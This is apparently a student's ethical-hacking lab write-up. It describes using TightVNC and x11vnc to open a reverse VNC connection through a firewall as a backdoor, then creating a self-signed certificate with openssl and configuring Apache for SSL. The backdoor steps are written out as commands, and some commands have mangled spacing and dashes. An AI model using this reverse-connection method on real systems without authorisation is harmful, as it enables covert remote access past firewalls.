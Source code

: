 #  VNC as a Backdoor and Creating / Installing SSL Certificates

## Objective
Topology: OpenSUSE, pfSense, and Kali

- Utilize TightVNC to create a reverse connection through a firewall.
- Create a self-signed X.509 certificate and install it on a Linux web server.

---

## Overview / Directions
**VNC as a Backdoor**

1. Inititated TightVNC in an OpenSUSE Terminal.

2. Switched to Kali Terminal and input the 'vncviewer' command to open a server window.

3. Input the OpenSUSE IP address:5902 and password. Closed the window that appeared and switched back to the OpenSUSE tab and input 'vncserver–kill :2'.

4. Switched back to the Kali Terminal and input 'vncviewer–listen 0'.

5. Switched back to the OpenSUSE Terminal and navigated to the /usr/bin directory and established a listener connection outside of the firewall with ' ./x11vnc–connect IP
   address:5500'.

**Creating / Installing SSL Certs**

Self-Signed Cert:

1. Generated an SSL key >  openssl genrsa–out ca.key 2048

2. Generated a new Certificate Signing Request (CSR) >  openssl req–new–key ca.key–out ca.csr

3. Filled out a Distinguished Name (DN) to be incorporated into the CSR

4. Generated a self-signed key >  openssl x509–req–days 365–in ca.csr–signkey ca.key–out ca.crt

5. Copied the ca.crt file from the current directory to the /etc/ssl/certs/ directory >  cp ca.crt /etc/ssl/certs/ca.crt

6. Copied the ca.key file from the current directory to the /etc/ssl/private directory >  cp ca.key /etc/ssl/private/ca.key

7. Copied the ca.csr file from the current directory to the /etc/ssl/private/ directory >  cp ca.csr /etc/ssl/private/ca.csr

Apache SSL File Configuration/SSL Cert Testing:

1. Navigated to the /etc/apache2/sites-available/ directory >  cd /etc/apache2/sites-available

2. Copied the default-ssl.conf file >  cp default-ssl.conf localhost-ssl.conf

3. Edited the localhost-ssl.conf file using the Mousepad file editor >  mousepad localhost-ssl.conf

4. Changed the SSLCertificateFile and SSLCertificateKeyFile paths >  SSLCertificateFile /etc/ssl/certs/ca.crt SSLCertificateKeyFile /etc/ssl/private/ca.key

5. Saved the file. Exited Mousepad.

6. Changed to the sites-enabled directory >  cd /etc/apache2/sites-enabled/

7. Enabled the localhost-ssl site >  ln-s /etc/apache2/sites-available/localhost-ssl.conf

8. Enabled the SSL Apache Mod >  a2enmod ssl

9. Restarted the Apache service > service apache2 restart

10. Opened web browser and viewed ht*ps://localhost warning message/certificate details.

---

## Tools / Skills Used
- **Tools:** TightVNC; OpenSUSE; Kali Linux
- **Skills:** file/directory management; X.509 SSL certificates; web server (Apache) SSL certification configuration

---

## Proof of Completion
**[Documentation](./Documentation)**

---

## Key Takeaway
This lab strengthened my **technical adaptability and problem-solving** skills by establishing a secure reverse VNC connection and manually creating and configuring SSL certificates on a Linux web server. Navigating multi-step processes across TightVNC, OpenSUSE, Kali, and Apache enhanced my **persistence, analytical reasoning, and foresight** in planning secure configurations. These abilities transfer directly to real-world scenarios where **secure remote access and encrypted communications** are critical for system integrity.

**[Return to Ethical Hacking Overview](./../README.md)**
